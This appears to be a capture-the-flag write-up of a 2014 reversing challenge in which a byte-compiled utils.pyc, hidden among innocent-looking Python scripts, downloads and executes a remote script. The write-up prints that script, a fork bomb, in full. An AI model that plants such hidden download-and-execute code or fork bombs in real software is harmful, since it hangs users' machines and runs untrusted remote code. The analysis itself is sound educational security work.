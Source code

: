 ### Solved by superkojiman

This challenge is worth 100 points and we're given a zip file called eggshells-master.zip along with the following hint:

> I trust people on the internet all the time, do you?

The zip file contains a bunch of python scripts as well as one compiled python byte code:

```
root@kali ~/Desktop/re100/eggshells-master
# ls -l
total 72
-rwxr-xr-x 1 root root  1051 Sep 19 00:54 capstone.py
-rwxr-xr-x 1 root root  1191 Sep 19 00:54 distorm.py
-rwxr-xr-x 1 root root 29446 Sep 19 00:54 interpreter.py
-rwxr-xr-x 1 root root  5439 Sep 19 00:54 main.py
drwxr-xr-x 3 root root  4096 Sep 19 00:30 nasm
-rwxr-xr-x 1 root root  4086 Sep 19 00:54 nasm.py
-rwxr-xr-x 1 root root   622 Sep 19 00:54 server.py
-rwxr-xr-x 1 root root  2876 Sep 19 00:54 shellcode.py
-rw-r--r-- 1 root root   245 Sep 18 23:51 utils.pyc
-rwxr-xr-x 1 root root   107 Sep 19 00:55 wrapper.py
```

Attempting to run any of these python scripts would cause my machine to lock up; hence the hint provided.

Since utils.pyc was the only one that stood out, I decided to run the strings command on it to see what would show up:

```
root@kali ~/Desktop/re100/eggshells-master
# strings utils.pyc
urllib2s
http://kchung.co/lol.pyN(
__import__t
urlopent
read(
/Users/kchung/Desktop/CSAW Quals 2014/rev100/utils.pyt
<module>
```

Looks like it pulls down some python file called lol.py from http://kchung.co. I went ahead and downloaded lol.py and examined its contents:

```
root@kali ~/Desktop/re100/eggshells-master
# curl http://kchung.co/lol.py
import os
while True:
    try:
        os.fork()
    except:
        os.system('start')
# flag{trust_is_risky}
```

lol.py itself is a fork bomb which which gets downloaded and executed whenever any of the python scripts are run. This explains why my machine would become unresponsive.

The flag of course, is right at the bottom of lol.py: **flag{trust_is_risky}**



